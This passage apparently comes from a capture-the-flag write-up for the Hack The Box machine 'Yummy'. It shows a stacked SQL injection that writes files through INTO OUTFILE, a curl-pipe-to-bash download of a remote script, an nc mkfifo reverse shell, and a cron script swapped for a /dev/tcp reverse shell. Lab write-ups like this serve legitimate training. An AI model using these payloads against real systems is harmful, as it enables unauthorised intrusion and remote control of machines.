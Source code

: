 ```bash
else
    /usr/bin/rm -f /data/scripts/dbstatus.json
    /usr/bin/echo "The automation failed in some way, attempting to fix it."
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
```

## Initial Foothold (Shell as mysql)

So we can insert a string into `dbstatus.json` to make sure that the file exists and triggers the execution the fixer script in `/data/scripts`.

1. We inject a string into `/data/scripts/dbstatus.json` with `SELECT "hacked" INTO OUTFILE '/data/scripts/dbstatus.json';`. The full payload is as below:

```
/admindashboard?s=aa&o=ASC%3b+select+"hacked;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b
```

![payload to insert content](/images/HTB-Yummy/insert_content.png)

2. Then we write a command into the fixer script to gain a reverse shell with `curl IP:PORT/shell.sh | bash;`

> We will need to setup a web server, the command will download our malicious script and execute it on the target.

```
/admindashboard?s=aa&o=ASC%3b+select+"curl+{IP}:{PORT}/shell.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b 
```

**REVERSE SHELL FILE**
```bash
#!/bin/bash
 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc {IP} {PORT} >/tmp/f
```

![command injection](/images/HTB-Yummy/cmd_injection_yummy.png)

On our listener we receive a connection as `mysql`.

![Shell as myql](/images/HTB-Yummy/foothold.png)

### Shell as www-data

We know that there is another cron job executing `/data/scripts/app_backup.sh` as `www-data` every minute. So we can replace `app_backup.sh` with a reverse shell file to escalate our privileges.

```
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
```

```
mv app_backup.sh app_backup.sh.one

echo 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' > revshell.sh

mv revshell.sh app_backup.sh
```

